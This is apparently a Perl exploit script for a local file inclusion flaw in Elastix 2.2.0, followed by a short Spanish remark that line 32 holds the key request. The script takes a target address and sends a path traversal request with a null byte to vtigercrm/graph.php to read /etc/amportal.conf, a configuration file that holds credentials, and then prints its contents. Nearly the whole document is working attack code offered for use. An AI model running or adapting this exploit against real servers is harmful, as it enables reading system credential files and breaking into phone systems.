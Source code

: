 ```perl
#Elastix is an Open Source Sofware to establish Unified Communications.
#About this concept, Elastix goal is to incorporate all the communication alternatives,
#available at an enterprise level, into a unique solution.
#------------------------------------------------------------------------------------#
############################################################
# Exploit Title: Elastix 2.2.0 LFI
# Google Dork: :(
# Author: cheki
# Version:Elastix 2.2.0
# Tested on: multiple
# CVE : notyet
# romanc-_-eyes ;)
# Discovered by romanc-_-eyes
# vendor http://www.elastix.org/

print "\t Elastix 2.2.0 LFI Exploit \n";
print "\t code author cheki   \n";
print "\t 0day Elastix 2.2.0  \n";
print "\t email: anonymous17hacker{}gmail.com \n";

#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

use LWP::UserAgent;
print "\n Target: https://ip ";
chomp(my $target=<STDIN>);
$dir="vtigercrm";
$poc="current_language";
$etc="etc";
$jump="../../../../../../../..//";
$test="amportal.conf%00";

$code = LWP::UserAgent->new() or die "inicializacia brauzeris\n";
$code->agent('Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)');
$host = $target . "/".$dir."/graph.php?".$poc."=".$jump."".$etc."/".$test."&module=Accounts&action";
$res = $code->request(HTTP::Request->new(GET=>$host));
$answer = $res->content; if ($answer =~ 'This file is part of FreePBX') {

print "\n read amportal.conf file : $answer \n\n";
print " successful read\n";

}
else {
print "\n[-] not successful\n";
        }
```

Lo importante del script está en la linea 32.

```
#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```
